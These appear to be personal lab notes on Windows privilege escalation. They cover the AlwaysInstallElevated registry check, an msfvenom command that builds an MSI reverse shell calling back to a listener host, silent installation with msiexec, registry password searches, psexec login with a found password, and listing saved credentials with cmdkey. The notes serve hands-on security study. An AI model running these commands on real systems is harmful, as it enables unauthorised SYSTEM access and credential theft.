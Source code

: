 
#### AlwaysInstallElevated

- It allows standard user to install **msi**(Microsoft Installer) with adminsitrative privileges.
- This is cool and easy to obtain higher privileges,
- We can check thet by running, `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`  and `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
- Run both these commands and the value for **AlwaysInstallElevated** must be 1 or 0x1. So that we can confirm and proceed along.
- Now create a reverse-shell of format **msi** for reference check the below command, `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.39.50 LPORT=4444 --platform windows -f msi > reverse.msi`
- Now transfer that to windows machine and run the command, `msiexec /quiet /qn /i reverse.msi`
- Hurray! we got the shell as `nt authority\system`

---

### Passwords:

- Here we look for credentials in registry, files...etc
- And we'll try to login!

---

#### Looking for passwords in Registry:

- We can search registry for passwords, sometimes we can find other user's passwords or even owner's password.
- Run `reg query HKLM /f password /t REG_SZ /s` this gives all the details in registry which contains **password** string, search and you might find it! But the sad part is I was unable to obtain any!
- Also run `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"` , we might find some information.
- We can also make use of our legendary tool **winPEAS** run with some options like `windowscreds` - looks for credentials, also `filesinfo` - looks into files and registry for useful data(sometimes passwords also)
- After obtaining password here it's `password123`, so now lets login with the help of **psexec**(link: [https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)) and the syntax is `python3 psexec.py admin@10.10.150.253` then it'll prompt for password mention it and we'll get access like admin!

---

#### Passwords : Savedcreds

- First of all run `cmdkey /list`, here **cmdkey** is an windows-server application that _Creates, lists, and deletes stored user names and passwords or credentials_. By running this we can see what are all the credentials of users saved!
- Th output is,

```
Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence
    
    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```
